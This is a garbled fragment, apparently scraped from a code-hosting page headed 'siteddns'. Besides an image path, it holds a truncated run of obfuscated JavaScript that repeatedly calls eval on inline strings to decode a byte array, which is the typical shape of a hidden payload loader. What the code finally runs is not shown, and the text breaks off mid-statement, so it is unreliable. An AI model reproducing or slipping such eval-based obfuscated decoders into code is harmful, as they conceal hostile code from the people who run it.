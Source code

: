  # siteddns
51)break;kp[mp]=(kp[mp]-kp[mp+1])&0xff;kp[mp]=(-kp[mp])&0xff;mp++;}while(true);";eval(mp);mp="for(mp=2;;){if(mp>49)break;kp[mp]=(-((((kp[mp]-kp[mp+1])&0xff)-138)&0xff))&0xff;mp++;}";eval(mp);mp=1;while(mp
